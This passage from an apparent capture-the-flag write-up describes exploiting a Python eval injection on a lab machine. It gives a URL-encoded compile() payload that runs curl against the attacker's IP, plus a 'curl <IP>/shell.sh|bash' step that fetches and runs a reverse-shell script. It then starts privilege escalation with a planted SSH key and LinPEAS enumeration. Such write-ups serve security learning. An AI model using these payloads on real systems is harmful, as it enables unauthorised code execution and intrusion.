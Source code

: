 Now, we just need to gain a reverse shell. It seems that `eval` as it cannot process the reverse shells I put in. I found this writeup for a bug bounty that bypasses this by using `compile()`.&#x20;

{% embed url="https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html" %}

However, this exploit would require us to 'close' the previous `eval` function and use another one. As such, we have to prepend our payload with `d'` to close the previous query. Using this payload, we can confirm RCE via `curl`:

```
d'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl+http%3a//10.10.16.41/test")','a','single'))%2b'
```

<figure><img src="../../.gitbook/assets/image (57) (6).png" alt=""><figcaption></figcaption></figure>

All we have to do is change the command to `curl <IP>/shell.sh|bash`.

<figure><img src="../../.gitbook/assets/image (47) (4).png" alt=""><figcaption></figcaption></figure>

With this, we can grab the user flag.

## Privilege Escalation

First I upgraded the shell by dropping my SSH public key into the machine. Then we can continue with our enumeration.

### Sudo Credentials

I initially ran a LinPEAS and `pspy64` scan, but found nothing from there. Next thing is to look for credentials, and we can start with `/var/www/app` since that's where the application source code is.

```
svc@busqueda:/var/www/app$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 Apr 10 14:41 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
```
